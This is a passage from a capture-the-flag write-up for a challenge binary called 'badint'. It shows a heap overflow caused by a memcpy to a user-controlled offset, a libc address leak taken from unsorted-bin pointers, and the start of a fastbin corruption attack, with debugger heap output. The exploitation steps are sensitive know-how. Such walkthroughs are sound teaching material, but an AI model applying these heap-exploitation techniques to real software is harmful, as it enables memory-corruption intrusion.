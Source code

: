 After done some analyzing, we found the vulnerability:
```c
 len = (unsigned __int8)get_len(cur_obj);
 data = (const void *)get_data(cur_obj);
 offset = get_offset(cur_obj);
 memcpy((void *)(offset + new_buf), data, len); // <-- Here !!
```

The program use `memcpy(new_buf + offset, data, len)` to copy the input data into a heap buffer. The variable `offet` can be controlled by us, and thus lead to a **heap overflow vulnerability**. The program crashed due to the `size` metadata was overwritten into an invalid size, causing the `free()` function aborted the program.  

Now we spot the vulnerability, time to exploit the service. First we'll have to leak some address. Here I leaked the libc's address by doing the following:  
```
$ ./badint 
SEQ #: 1
Offset: 8
Data: 111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
LSF Yes/No: Yes
RX PDU [1] [len=144]
Assembled [seq: 1]: 788ba4952b7f000011111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111

SEQ #:
```

Here we set the offset to 8, so the data we input will copy to `heap_buf+8`. `heap_buf` is a chunk in unsortbin which will be allocated for storing our input data, and thus its `fd` & `bk` will contain the address of `main_arena+88`. We copy the data to `heap_buf+8`, means that `fd` will not be overwritten, and so we could leak the libc's address by printing out the assembled data.  

The next step is to try hijack the program control flow. Here I decided to use the fastbin corruption attack. First we'll have to arrange the following heap memory layout:
```
gdb-peda$ hip
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0xc26cc0 --> 0x0
(0x40)     fastbin[2]: 0xc26c80 --> 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0xc26c20 --> 0x0   
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0xc26f10 (size : 0x1c0f0) 
       last_remainder: 0xc26e00 (size : 0x50) 
            unsortbin: 0x0
gdb-peda$ 
```

By using the amazing [angelheap](https://github.com/scwuaptx/Pwngdb/tree/master/angelheap) from [Pwngdb](https://github.com/scwuaptx/Pwngdb), we could see that there's a chunk in `fastbin[4]`(size = 0x60), and a chunk in `fastbin[2]`(size = 0x40).  
